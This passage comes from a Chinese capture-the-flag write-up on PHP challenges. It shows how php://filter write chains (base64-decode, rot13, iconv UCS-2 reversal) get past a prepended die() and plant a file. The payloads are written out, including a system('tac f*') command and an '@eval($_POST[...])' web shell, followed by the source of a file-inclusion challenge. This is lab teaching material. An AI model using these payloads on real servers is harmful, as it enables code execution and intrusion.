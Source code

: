 同样,本题中的`urldecode($file)`也是可以控制协议的,按照base64编码范围`A-Za-z0-9,/,=,+`,后面的`<?php die('大佬别秀了');?>`解码的时候只有phpdie能被识别,解码的时候是四个一组,所以再随便凑两个字符给它

#### 最后payload

##### base64-decode

```
file=php://filter/write=convert.base64-decode/resource=1.php       ,进行url全编码两次绕过php过滤

content=content=aaPD9waHAgc3lzdGVtKCd0YWMgZionKTs+        ,aa为了满足phpdie解码凑够六个
```

##### rot13

算是一种移位编码,字母总共26个,移动两次13就回到了原点

```
file=php://filter/write=string.rot13/resource=1.php           ,还是进行两次url全编码
content=<?cuc flfgrz('gnp s*');>              //进行了一次rot13编码的样子
```

只是这种方法有点尴尬的是；因为我们生成的文件内容之中前面的`<?`不在字母范围呢,并没有分解掉，这时，如果服务器开启了短标签，那么就会被解析，所以所以后面的代码就会错误；也就失去了作用；

##### iconv

根据web117

该过滤器类似于iconv函数,可以将字符串每两个字符反转一次,两次反转就能转回来

```
file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php   
contents=?<hp pystsme"(at c*f)">?           
```

```php
$result = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_POST[dotast]);?>');
echo "经过一次反转:".$result."\n";
echo "经过第二次反转:".iconv("UCS-2LE","UCS-2BE", $result);
//输出结果如下：
//经过一次反转:?<hp pe@av(l_$OPTSd[tosa]t;)>?
//经过第二次反转:<?php @eval($_POST[dotast]);?>
```





### web88

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

